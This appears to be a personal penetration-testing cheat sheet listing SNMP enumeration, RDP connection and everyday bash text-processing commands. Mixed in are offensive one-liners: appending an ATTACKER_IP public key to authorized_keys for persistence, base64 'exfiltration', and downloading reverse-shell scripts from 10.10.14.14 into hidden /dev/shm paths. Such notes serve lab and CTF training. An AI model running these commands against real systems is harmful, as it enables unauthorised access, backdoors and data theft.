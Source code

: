 ```bash
snmpbulkwalk -c public -v2c 10.10.11.136 .
snmpwalk -v [VERSION_SNMP] -c [COMM_STRING] [DIR_IP] .1 #Enum all

xfreerdp /u:<username> /p:<password> /v:<IP> # connect to RDP 
```
## Common Bash

```bash
#Exfiltration using Base64
base64 -w 0 file

#Get HexDump without new lines
xxd -p boot12.bin | tr -d '\n'

#Add public key to authorized keys
curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

#Echo without new line and Hex
echo -n -e


#Count
wc -l <file> #Lines
wc -c #Chars

# compare files line by line
diff <file1>  <file2>

hasher <file> # check MD5 message digest

#Sort
sort -u # removes any duplicate lines after sorting
sort -nr #Sort by number and then reverse
cat file | sort | uniq #Sort and delete duplicates
cat file | sort | uniq -u # sort and displays the lines that appear once
#Replace in file
sed -i 's/OLD/NEW/g' path/file #Replace string inside a file
sed -r '/^\s*$/d' # **deletes empty lines or lines that contain only whitespace** (spaces, tabs, etc.)
sed -ri '/^.{,9}$/d' mut_password.list # Remove all passwords shorter than 10 with sed -ri '/^.{,9}$/d' mut_password.list

echo "mido ahmed rawen 2002" | awk '{print $1}'  # mido
echo "hate rawen : love rawen" | cut -f 2 -d ":" # love rawen
cat file.json | jq . # output the results in JSON format
-------
grep "ahmed" -rwn .  # finds all files in the current directory and subfolders that contain the exact word "ahmed" and shows the matching lines with file paths
-r  Search recursively in all subdirectories  
-w  Match whole words only (not part of another word)
-i Ignore case (don’t use if you want case-sensitive)
-x Match exact full line
-n show the line number 
-------
 # search 

#Download in RAM
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py

#Files used by network processes
```